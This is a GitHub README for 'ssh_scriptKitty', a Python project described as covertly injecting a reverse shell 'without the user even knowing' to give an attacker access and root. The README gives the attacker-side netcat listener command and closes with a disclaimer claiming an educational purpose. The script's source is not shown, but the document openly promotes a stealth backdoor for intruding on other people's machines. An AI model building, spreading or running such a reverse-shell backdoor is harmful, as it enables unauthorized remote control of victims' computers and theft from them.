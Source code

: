 # 🖥🔄🖥 ssh_scriptKitty

# main description

This project is a quick script that opens a ssh server on a computer.
This script injects a revershell command with out the user even knowing this can also be used to make
a hole for a attacker to get in to. 

# not so long description 
This project contains a python file that starts a revers shell attack wich can be used as a
exploit to gain root 🌳.

# How to start the attack
start by listening on the attackers side 
command : ssty raw -echo; (stty size; cat) | nc -lvnp port -s IPaddr

# disclamer
please don't spread this as malware or use on othere's with out concent,
this script was made for the pure pupose of education and cyber sucrity in mind.

--thank you
